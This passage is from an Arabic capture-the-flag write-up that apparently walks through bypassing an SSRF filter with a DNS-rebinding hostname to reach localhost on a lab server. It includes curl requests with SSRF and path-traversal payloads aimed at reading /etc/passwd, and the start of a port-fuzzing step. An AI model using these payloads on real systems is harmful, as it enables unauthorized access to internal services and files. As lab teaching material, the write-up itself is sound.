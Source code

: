 ## تخطي الحماية
في الموقع اللي قبل شوي خلينا نجرب في الخانة الأولى نحط 127.0.0.1 وفي الثانية 0.0.0.0 والرابط راح يكون 00000000.7f000001.rbndr.us خلينا نرسل طلب لسيرفر التحدي ونشوف النتيجة
```bash
curl http://10.10.212.25:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:8080/gallery"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>London Gallery</title>
    ...
```
ياسلام، تخطينا الحماية السطحية. خليني أنبه على أن الحماية في السيرفرات الواقعية راح تكون أكبر من كذا بكثير، يعني لازم تستغل ثغرة subdomain takeover لدومين تملكه الشركة، بعدين تسوي التكنيك هذا، تلاحظ إننا في الخانة الأولى حطينا أحد عناوين السيرفر المحلي (0.0.0.0) وفي الخانة الثانية حطينا أيضا أحد عناوين السيرفر المحلي (127.0.0.1) والسبب هو أن السيرفر يشيك على اسم الدومين فقط لكن ما يسوي resolve للدومين.

# استغلال الثغرة والوصول للسيرفر
خلينا نبدأ نبحث عن ملفات:
```bash
$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:8080/etc/passwd" 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:8080/../../../../etc/passwd"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:8080/%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc/passwd"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```
غريبة، مايمدينا نوصل لأحد ملفات النظام etc/passwd/ خلينا نبحث عن المداخل الموجودة باستخدام ffuf:
```bash
$ seq 65535 > ports

$ head ports 
1
2
3
4
5
6
7
8
9
10

```